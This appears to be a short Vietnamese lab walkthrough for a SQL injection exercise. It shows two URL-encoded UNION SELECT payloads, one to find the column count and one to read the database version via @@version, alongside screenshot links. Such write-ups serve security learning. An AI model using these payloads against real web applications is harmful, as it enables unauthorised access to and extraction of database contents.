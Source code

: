 ![image](https://github.com/user-attachments/assets/58d28c42-9867-4977-b072-7af0af32214a)

Payload:

```
'+union+select+null,null--+
```

Sau khi test thì ta có thể thấy được rằng ở trong câu query nó yêu cầu 2 cột.

![image](https://github.com/user-attachments/assets/e997af59-a956-4ed6-affd-28733d00722a)

Rồi tiến hành lấy version db ra thôi (query thì cứ đọc docs là oke).

Payload:

```
'+union+select+null,@@version--+
```

![image](https://github.com/user-attachments/assets/6ed3d67f-5957-4b96-98c6-fbaba4de6e60)
